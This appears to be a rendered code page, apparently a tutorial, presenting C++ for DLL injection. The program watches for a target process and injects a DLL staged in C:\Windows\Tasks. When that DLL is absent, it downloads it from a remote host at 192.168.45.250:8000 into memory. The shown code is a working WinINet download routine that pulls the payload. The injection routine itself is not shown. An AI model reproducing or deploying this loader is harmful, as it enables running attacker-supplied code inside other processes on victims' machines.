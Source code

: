 
Here’s a sample C++ code that demonstrates how to inject a DLL into a process using Win32 APIs. This code continuously checks if a process named `injectme.exe` is running. If it detects the process, it tries to inject `myinjection.dll` from `C:\Windows\Tasks`. If the DLL doesn't exist locally, it downloads the DLL from `http://192.168.45.250:8000/myinjection.dll` into memory and performs the injection.

### **C++ Code Overview**

1. **Find the Process ID**: It looks for the `injectme.exe` process.
2. **DLL Injection**: It attempts to inject `myinjection.dll` from a specified path. If the DLL is not found locally, it downloads it from a specified URL and injects it from memory.

```cpp
#include <windows.h>
#include <tlhelp32.h>
#include <wininet.h>
#include <iostream>
#include <fstream>

#pragma comment(lib, "wininet.lib")

bool DownloadDLLFromURL(const char* url, unsigned char** buffer, size_t* bufferSize) {
    HINTERNET hInternet = InternetOpenA("WinINet Example", INTERNET_OPEN_TYPE_DIRECT, NULL, NULL, 0);
    if (!hInternet) return false;

    HINTERNET hConnect = InternetOpenUrlA(hInternet, url, NULL, 0, INTERNET_FLAG_RELOAD, 0);
    if (!hConnect) {
        InternetCloseHandle(hInternet);
        return false;
    }

    DWORD bytesRead = 0;
    DWORD totalBytesRead = 0;
    const DWORD bufferSizeIncrement = 4096;
    *bufferSize = 0;
    *buffer = nullptr;

    do {
        *buffer = (unsigned char*)realloc(*buffer, *bufferSize + bufferSizeIncrement);
        if (!*buffer) {
            InternetCloseHandle(hConnect);
            InternetCloseHandle(hInternet);
            return false;
        }

        if (!InternetReadFile(hConnect, *buffer + *bufferSize, bufferSizeIncrement, &bytesRead)) {
            free(*buffer);
            *buffer = nullptr;
            InternetCloseHandle(hConnect);
            InternetCloseHandle(hInternet);
            return false;
        }

        *bufferSize += bytesRead;
        totalBytesRead += bytesRead;

    } while (bytesRead > 0);

    InternetCloseHandle(hConnect);
    InternetCloseHandle(hInternet);
    return totalBytesRead > 0;
}

```
